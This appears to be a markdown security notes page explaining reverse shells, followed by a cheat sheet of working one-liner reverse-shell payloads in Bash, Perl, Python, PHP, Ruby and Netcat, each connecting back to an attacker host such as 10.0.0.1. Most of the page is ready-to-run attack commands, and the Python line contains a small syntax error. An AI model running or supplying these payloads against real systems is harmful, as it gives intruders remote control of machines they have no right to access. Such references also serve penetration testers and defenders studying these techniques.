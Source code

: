 # Reverse Shell

### Explanation
A reverse shell is a type of shell session initiated by a remote attacker to gain control of a target system. In a typical client-server model, the client connects to the server to request services or resources. However, in the case of a reverse shell, the roles are reversed: the target system (the server) connects back to the attacker's system (the client) to establish a shell session.

#### Example

##### Attacker's System Setup
First, ***the attacker*** sets up a listener using Netcat on a specific port. This listener will wait for connections from the target system.

```nc -lvp 4444```

- **l**: Listen mode, for incoming connections.
- **v**: Verbose mode, to display detailed information.
- **p 4444**: Specifies the port number to listen on (in this example, port 4444).  

##### Target System Execution

On the ***target system***, the attacker somehow delivers and executes a payload (for example, a shell script or executable) that connects back to the attacker's system. This payload could be delivered through various means, such as exploiting vulnerabilities, social engineering, or other methods.

Assuming the target system has Netcat installed, the attacker can execute the following command on the target system to establish a reverse shell connection:

```nc <attacker_ip> 4444 -e /bin/bash```  

- **<attacker_ip>**: Replace this with the IP address of the attacker's system.
- **-e /bin/bash**: Specifies that the shell (/bin/bash) should be executed upon connection.

##### Shell Session

Once the payload is executed on the target system, it initiates a connection back to the attacker's system. The attacker's Netcat listener then receives this connection and provides a shell session, allowing the attacker to execute commands on the target system.

```
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [target_ip] 12345 received!
$ 
```

### Cheat-Sheet

##### Bash shell

- 1: ```nc -lvp 1234```
- 2: ```bash -i >& /dev/tcp/10.0.0.1/1234 0>&1```  

##### Perl shell

- 1: ```nc -lvp 1234```
- 2: ```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```  

##### Python shell

- 1: ```nc -lvp 1234```
- 2: ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``` 

##### PHP shell

- 1: ```nc -lvp 1234```
- 2: ```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'``` 

##### Ruby shell

- 1: ```nc -lvp 1234```
- 2: ```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'``` 

##### Netcat shell

- 1: ```nc -lvp 1234```
- 2: ```nc -e /bin/sh 10.0.0.1 1234``` 

